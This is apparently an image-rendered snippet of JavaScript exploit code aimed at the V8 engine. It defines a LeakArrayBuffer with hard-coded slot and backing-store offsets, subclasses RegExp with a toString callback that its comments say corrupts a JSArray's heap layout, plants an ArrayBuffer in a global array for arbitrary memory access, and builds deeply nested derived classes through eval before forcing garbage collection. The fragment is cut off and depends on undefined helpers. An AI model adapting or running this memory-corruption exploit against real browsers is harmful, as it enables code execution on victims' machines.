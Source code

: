 ```js
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();
```